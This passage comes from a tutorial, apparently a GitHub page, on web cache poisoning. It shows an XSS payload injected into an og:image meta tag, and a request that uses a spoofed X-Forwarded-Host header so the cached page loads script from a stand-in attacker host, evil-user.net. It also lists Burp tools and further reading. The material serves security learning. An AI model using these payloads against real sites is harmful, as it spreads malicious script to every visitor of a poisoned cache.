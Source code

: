 Response:

```html
<meta property="og:image" content="https://a."><script>alert(1)</script>/cms/social.png" />
```

If cached, this payload is delivered to all users.

---

### Exploiting Unsafe Resource Imports

```http
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
```

Response:

```html
<script src="https://evil-user.net/static/analytics.js"></script>
```

This results in arbitrary JS execution for every user who receives the cached page.

---

<img width="696" height="386" alt="image" src="https://github.com/user-attachments/assets/e63fec68-844f-442b-9f02-4821cc209b08" />

<img width="884" height="366" alt="image" src="https://github.com/user-attachments/assets/7335dccd-a3a5-4f37-bb5a-aa8e8331ab4c" />


## Tools

* **Burp Suite Param Miner**: Finds unkeyed inputs automatically
* **Burp Comparer**: Manually compare responses

---

## Additional Resources

* [Practical Web Cache Poisoning (PortSwigger)](https://portswigger.net/web-security/web-cache-poisoning)
* [Gotta Cache 'em all - Whitepaper (Black Hat USA 2024)](https://portswigger.net/research)

---

## Summary

Web cache poisoning is a powerful vulnerability with a wide range of potential impacts. By understanding caching behavior, identifying unkeyed inputs, and crafting harmful yet cacheable responses, attackers can hijack legitimate traffic and distribute malicious content at scale.

**Always test responsibly with cache busters.**
